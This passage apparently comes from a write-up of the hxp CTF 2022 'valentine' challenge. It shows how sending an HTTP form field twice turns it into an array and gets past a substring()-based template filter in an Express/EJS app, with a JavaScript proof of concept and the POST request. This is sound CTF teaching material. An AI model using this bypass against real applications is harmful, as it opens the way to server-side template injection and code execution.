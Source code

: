 Ok, so... where is the bug?

# Exploitation

To investigate the issue with a better perspective, I added inside the source code some debug print statements that show us the state of the user-supplied input before any key function. Then I rebuilt the docker image and started playing around with the parameters we can use.

## substring() bypass

Our first effort was trying to bypass the security controls imposed by the server and be able to write arbitrary data inside a template.

One of my teammates noticed that by inserting twice the `tmpl` field inside the HTTP body, it was possible to pass to the server an array instead of a string, completely bypassing the security checks performed using the `substring()` method.

>[!bug] 
>`Substring()` is part of the `string` prototype and can be used only on `string` variables. In our case, however, we can pass to the method an `array`, forcing the `if` condition to result always `false`.

PoC:

```js
var tmpl = [ '<%= asd %>', '<%= asd %>' ]
var i
while((i = tmpl.indexOf("<%", i+1)) >= 0) {
    if (tmpl.substring(i, i+11) !== "<%= name %>") {
      res.status(400).send({message:"Only '<%= name %>' is allowed."});
	  console.log('Caught!')
      return;
    }
  }
console.log('bypassed')
```

![](../../zzz_res/attachments/valentine4.png)

HTTP request: 
```http
POST /template
Host: 127.0.0.1:9086
Content-Type: application/x-www-form-urlencoded

tmpl=<%= name %>&tmpl=<%= name %>
```


[^1]: https://ejs.co/#docs 
[^2]: https://ejs.co/#docs
[^3]: https://expressjs.com/en/api.html#res.render
[^4]: https://snyk.io/blog/fixing-ejs-rce-vuln/
[^5]: https://github.com/mde/ejs/wiki/Using-EJS-with-Express#passing-opts-with-data
[^6]: https://securitylab.github.com/advisories/GHSL-2021-021-tj-ejs/
[^7]: https://eslam.io/posts/ejs-server-side-template-injection-rce/
[^8]: https://github.com/expressjs/express/wiki/Migrating-from-2.x-to-3.x
[^9]: https://hxp.io/blog/101/hxp-CTF-2022-valentine/